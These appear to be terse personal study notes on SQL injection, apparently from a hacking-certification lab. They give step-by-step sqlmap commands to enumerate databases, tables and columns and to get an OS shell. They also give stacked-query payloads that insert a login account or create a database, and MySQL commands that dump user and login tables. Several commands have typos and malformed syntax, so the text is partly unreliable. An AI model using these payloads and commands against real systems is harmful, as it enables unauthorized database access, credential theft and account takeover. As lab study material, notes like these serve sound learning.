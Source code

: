 Tools 
1) N staltker web vuln analysis
2) In the vuln web app go to console type document.cookie
	1) get the cookie value
	2) `sqlmap -u "http://IP?id=?" --cookie="X" --dbs`
to insert a username into the database we can user
`blah;insert into login values ('john',apple123');--`

then login using john as user  and apple123 as pass


To create a database 
`blah;create database mydatabase;--`  


1) sqlmap -r request.txt from burp 
2) sqlmap -r request.txt --dbs
3) sqlmap -r request.txt -D database_name --tables
4) sqlmap -r request.txt -D database_name -T table_name --columns
5) qlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell


1) mysql -U qdpmadmin -h 192.168.1.8 -P passwod 
2) show databases;
3) use database_name
4) show tables ;
5) select * from users;
6) show dtabases;
7) use staff;
8) show tables;
9) select * from login;
10) select * from user;
11) When you have username and Password for the database.


https://www.youtube.com/watch?v=iD84waJKYh0


